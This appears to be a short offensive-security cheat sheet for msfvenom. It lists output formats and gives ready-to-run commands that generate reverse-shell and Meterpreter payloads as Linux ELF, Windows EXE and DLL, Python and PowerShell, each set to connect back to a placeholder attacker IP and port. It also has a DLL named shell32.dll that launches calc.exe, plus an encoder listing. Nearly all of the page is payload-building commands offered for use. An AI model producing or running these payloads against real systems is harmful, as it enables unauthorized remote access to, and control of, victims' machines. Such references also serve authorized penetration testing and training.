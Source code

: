 #### Executable formats

```
asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, jsp, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war
```

#### Transform formats

```
bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript
```

#### Staged Meterpreter

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=YourIP LPORT=YourPort -f elf > shell-meterp.elf
```

#### Inline Meterpreter

```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=YourIP LPORT=YourPort -f elf > santas.elf
```

#### Executable with Meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YourIP LPORT=YourPort -f exe > shell-meterp.exe
```

#### Executable with Windows cmd

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=YourIP LPORT=YourPort -f exe > shell-cmd.exe
```

#### Windows DLL with Windows cmd

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=YourIP LPORT=YourPort -f dll > shell-cmd.dll
```

#### Execute Windows Command - génère une dll shell32.dll qui lance calc.exe

```bash
msfvenom -f dll -p windows/exec CMD="C:\windows\system32\calc.exe" -o shell32.dll
```

#### Python

```bash
msfvenom -p cmd/unix/reverse_python LHOST=YourIP LPORT=YourPort -f raw
```

#### Powershell

```bash
msfvenom -p windows/powershell_reverse_tcp LHOST=YourIP LPORT=YourPort -f raw
```

#### List encoders

```bash
msfvenom -l encoders
```
